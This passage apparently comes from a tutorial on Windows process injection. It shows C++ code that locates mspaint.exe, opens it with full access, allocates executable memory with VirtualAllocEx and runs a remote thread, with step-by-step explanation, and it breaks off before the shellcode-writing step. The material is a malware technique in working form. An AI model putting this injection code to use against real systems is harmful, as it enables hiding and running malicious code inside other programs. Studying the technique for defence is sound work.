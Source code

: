 ```c++

                return 1;
            }
            // Halt execution until thread returns
            WaitForSingleObject(hThread, INFINITE);
            // Free allocated memory in `mspaint.exe`
            VirtualFreeEx(hProcess, allocated_mem, 0, MEM_RELEASE);
            // Close the handle to the created thread
            CloseHandle(hThread);
            // Close the handle to `mspaint.exe` process
            CloseHandle(hProcess);

            break;
        }
            // Enumerate the snapshot
    } while (Process32Next(snapshot, &pe32));

    return 0;
}

```

# 2. Allocate the memory for the Process Injection attack

From the above code inside our do while loop in the first if statement we check for the "mspaint.exe" process and if we find that process we open that process
by using "OpenProcess" API funciton to get the handle of that process, if we find the "mspaint.exe" process we use "VirtualAllocEx" API function same function that we use in Self Injection attack to allocate the memory in "mspaint.exe" process for our shellcode.


```c++
// Check if we have a match for `mspaint.exe`
        if (wcscmp(pe32.szExeFile, L"mspaint.exe") == 0) {
            // Obtain a handle to `mspaint.exe`
            HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
            // Allocate memory in `mspaint.exe`
            LPVOID allocated_mem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

            if (allocated_mem == NULL) {

                printf("Memory allocation failed: %ul\n", GetLastError());

                return 1;
            }

            printf("Memory page allocated at: 0x%p\n", allocated_mem);

```
# 3. Write the Shellcode to th MS Paint process
